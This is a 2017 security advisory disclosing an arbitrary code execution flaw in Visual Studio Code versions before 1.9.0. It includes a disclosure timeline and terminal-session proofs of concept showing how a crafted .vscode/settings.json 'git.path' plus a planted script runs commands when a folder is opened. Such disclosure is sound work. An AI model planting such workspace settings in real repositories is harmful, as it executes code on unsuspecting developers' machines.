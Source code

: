 The following issue constitutes an arbitrary code execution vulnerability in
Visual Studio Code (herein referred to as "Code").

Users should upgrade to Code 1.9.0 or later.

<https://en.wikipedia.org/wiki/Visual_Studio_Code> says:

> Visual Studio Code is a source code editor developed by Microsoft for
> Windows, Linux and macOS. It includes support for debugging, embedded Git
> control, syntax highlighting, intelligent code completion, snippets, and code
> refactoring. It is also customizable, so users can change the editor's theme,
> keyboard shortcuts, and preferences. It is free and open-source, although the
> official download is under a proprietary license.

The vulnerability can be exploited in the event that a user loads a directory
in Code, where that directory contains specially-crafted contents. In Code
parlance, a directory represents a "Workspace".

This could arise in the following scenarios:

* Where an attacker controls a world-readable directory on a multi-user system
  (e.g. within `/tmp/`) that a user can be convinced to open as a Workspace.

* Where an attacker can provide a tarball that a user can be convinced to
  extract then open as a Workspace.

* Where an attacker controls a git repo which a user can be convinced to clone
  and then open as a Workspace.

Other scenarios are left as an exercise for the reader.

All examples below were captured using Code version 1.7.2 as installed on
Debian Testing from `code_1.7.2-1479766213_amd64.deb` (SHA256
`6bf92cc50f58053538d07f64d91b5cb2469c532dff130fb5107f402134e079b5`)

Disclosure Timeline
-------------------

* 5 Dec 2016 - Issue reported to the project with a coordinated disclosure date of 6 March 2017
* Late Jan 2017 - Issue fixed in various commits
* 2 Feb 2017 - 1.9.0 released
* 2 Mar 2017 - Advisory published

The project did not notify me that a fix had been published despite there being
an agreed-upon coordinated disclosure date (at 90 days or upon fix, whichever
came first)

Microsoft also did not allocate a CVE as requested.

Visual Studio Code automatically loads unsafe Workspace Settings
----------------------------------------------------------------

* OVE ID: OVE-20170302-0001
* Private disclosure date: 2016-12-06
* Public disclosure date: 2017-03-02
* Vendor advisory: <https://code.visualstudio.com/updates/v1_9#_settings-and-security>
* Affected versions: `< 1.9.0`

Code, when opening a Workspace, automatically loads Workspace Settings from a
file named `.vscode/settings.json`. Opening a Workspace is understood to be a
common activity, as it allows for the viewing and editing of multiple files
within a directory structure. Documentation regarding Workspace Settings and
their mechanics is available at
<https://code.visualstudio.com/Docs/customization/userandworkspace>

The loading of Workspace Settings allows for the configuration of unsafe
parameters, such as the path to the Git executable and whether Git
functionality should be enabled by the Workspace.

The specification of the path to the Git executable, and the enabling of Git
functionality, allows an attacker to induce arbitrary command execution upon
opening a Workspace within Code.

### POC

#### Cause the "yes" program to be executed

```text
[justin@671335e66d2d D ~]% mkdir -p test1/.vscode

[justin@671335e66d2d D ~]% cat > test1/.vscode/settings.json
{
  "git.path": "yes"
}
^D

[justin@671335e66d2d D ~]% ps -ef | grep yes
justin     934   394  0 07:00 pts/0    00:00:00 grep --color=auto yes

[justin@671335e66d2d D ~]% code ./test1/
  [... Code starts up as an X application ...]

[justin@671335e66d2d D ~]% ps -ef | grep yes
justin    1043   991 91 07:00 ?        00:00:03 /usr/share/code/code /usr/share/code/resources/app/out/bootstrap yes /home/justin/test1 utf8 /usr/share/code/code yes (GNU coreutils) 8.25 Copyright (C) 2016 Free Software Foundation, Inc. License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>. This is free software: you are free to change and redistribute it. There is NO WARRANTY, to the extent permitted by law.  Written by David MacKenzie.
justin    1066  1043 25 07:00 ?        00:00:01 yes rev-parse --show-toplevel
justin    1076   394  0 07:01 pts/0    00:00:00 grep --color=auto yes
```

`yes` is clearly running.

#### Discover how Git is being invoked:

`git.path` is set to be the path to a shell script which will snitch on how
`git` is being invoked.

```text
[justin@671335e66d2d D ~]% mkdir -p test2/.vscode

[justin@671335e66d2d D ~]% cat > test2/.vscode/settings.json
{
  "git.path": "/home/justin/test2/log_how_we_do.sh"
}
^D

[justin@671335e66d2d D ~]% cat > test2/log_how_we_do.sh
#!/bin/sh
echo "CWD: $PWD" >> /home/justin/how_we_do.log
echo "doing: $0 $@" >> /home/justin/how_we_do.log
echo "---" >> /home/justin/how_we_do.log
^D

[justin@671335e66d2d D ~]% chmod u+x test2/log_how_we_do.sh

[justin@671335e66d2d D ~]% code ./test2/
  [... Code starts up as an X application ...]

[justin@671335e66d2d D ~]% cat how_we_do.log
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh --version
---
CWD: /home/justin/test2
doing: /home/justin/test2/log_how_we_do.sh rev-parse --show-toplevel
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh status -z -u
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh symbolic-ref --short HEAD
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh for-each-ref --format %(refname) %(objectname)
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh remote --verbose
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh status -z -u
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh symbolic-ref --short HEAD
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh for-each-ref --format %(refname) %(objectname)
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh remote --verbose
---
```

Git is being invoked a number of times. It is first executed with the argument
`--version` with the CWD being the CWD from where Code was launched, and then
it is executed with the arguments `rev-parse --show-toplevel` with the CWD
being the path to the Workspace being opened.

In separate testing, it was found that Code will seemingly cease to perform Git
invocations if any invocation returns an exit code other than 0.

#### Gain code execution

We can set the Git path to be `bash` and plant a Bash script in the workspace
directory with a filename of `rev-parse`. `bash --version` returns an exit code
of 0, and so we should get through to the invocation of `bash rev-parse
--show-toplevel` which will execute our Bash script.

By having the `rev-parse` Bash script exit with a non-zero status, we can
early-out of the series of Git invocations.

```text
[justin@671335e66d2d D ~]% mkdir -p test3/.vscode

[justin@671335e66d2d D ~]% cat > test3/.vscode/settings.json
{
  "git.path": "bash"
}
^D

[justin@671335e66d2d D ~]% cat > test3/rev-parse
#!/bin/sh
echo "Arbitrary command execution as $(id)" > /home/justin/command_execution.proof
exit 1
^D

```

Trigger the bug:

```text
[justin@671335e66d2d D ~]% cat command_execution.proof
cat: command_execution.proof: No such file or directory

[justin@671335e66d2d D ~]% code ./test3/
  [... Code starts up as an X application ...]

[justin@671335e66d2d D ~]% cat command_execution.proof
Arbitrary command execution as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```

---

Justin Steven

<https://twitter.com/justinsteven>
